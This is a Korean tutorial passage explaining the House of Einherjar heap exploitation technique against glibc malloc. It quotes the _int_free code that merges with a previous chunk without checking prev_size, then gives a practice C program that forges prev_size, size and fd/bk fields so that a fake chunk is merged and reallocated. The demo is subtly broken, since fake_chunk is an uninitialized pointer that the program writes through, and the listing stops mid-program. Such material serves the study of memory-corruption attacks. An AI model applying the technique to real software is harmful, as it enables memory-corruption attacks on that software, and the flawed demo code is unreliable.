 위의 순서도에서 취약점이 발생하는 부분은 '이전 chunk와 병합 시도' 부분과 'top chunk와 병합' 부분이다.



## [A] : House of Einherjar 첫 번째 취약점

첫 번째 취약점은 unsorted bin에 원하는 주소를 넣어 청크를 재할당 받는 방법입니다.

```C
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s))) // 인접한 청크의 주소를 알아냄
static void _int_free (mstate av, mchunkptr p, int have_lock)
{
    ... 
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));	// [A] // 여기서 p는 이전 청크의 헤더를 포함한 주소가 된다.
      unlink(av, p, bck, fwd);
    }
    ...
}
```

- 첫 번째 취약점은 위 코드의 [A]에서 발생합니다.
- p(현재 청크의 주소)의 prev_inuse_bit의 값이 0이라면 인접한 낮은 주소에 위치한 청크(이하 '이전 청크')와 병합을 진행합니다.
  - p의 prev_inuse_bit값이 0이란 것은 인접한 이전 청크가 이미 free 되어 있다는 것을 뜻하기 때문입니다.
- 이때, prevsize 값에 대한 범위 검증이 없습니다. 즉, ```p->prev_size```값을 스택 등 해커가 원하는 위치의 주소와의 offset으로 덮는다면 해당 위치에 존재하는 fake chunk와 병합을 진행하게 될 것입니다. 
- 병합이 끝난 뒤에는 fake_chunk의 주소가 unsorted bin에 들어가게 됩니다. 
  - 이 후 fake_chunk의 size값을 재할당 받고 싶은 만큼의 크기로 수정한 후 해당 size만큼 재할당을 받게 되면 fake chunk에 재할당 되게 됩니다.

### [A] : 실습

```C
// gcc house_of_einherjar1.c -o house_of_einherjar1
#include <stdio.h>
#include <stdlib.h>

int main(){

        long * ptr1;
        long * ptr2;
        long * ptr3;

        long * fake_chunk;
        long * ptr4;

        ptr1 = malloc(0x70);
        ptr2 = malloc(0x100); // small bin size
        ptr3 = malloc(0x30);

        fprintf(stderr, "ptr2 address : %p\n", ptr2);

        ptr2[-1] = 0x110; // size
        ptr2[-2] = (char*)(ptr2-2) - (char*)fake_chunk; // prev_size

        fprintf(stderr, "fake_chunk address : %p\n", fake_chunk);

        fake_chunk[1] = (char*)(ptr2-2) - (char*)fake_chunk; // size
        fake_chunk[2] = fake_chunk;     // for unlink bypass
        fake_chunk[3] = fake_chunk;     // for unlink bypass
        fake_chunk[4] = fake_chunk;     // for unlink bypass
        fake_chunk[5] = fake_chunk;     // for unlink bypass

        fprintf(stderr, "fake_chunk size : 0x%lx\n", fake_chunk[1]);
        fprintf(stderr, "fake_chunk->fd : 0x%lx\n", fake_chunk[2]);
```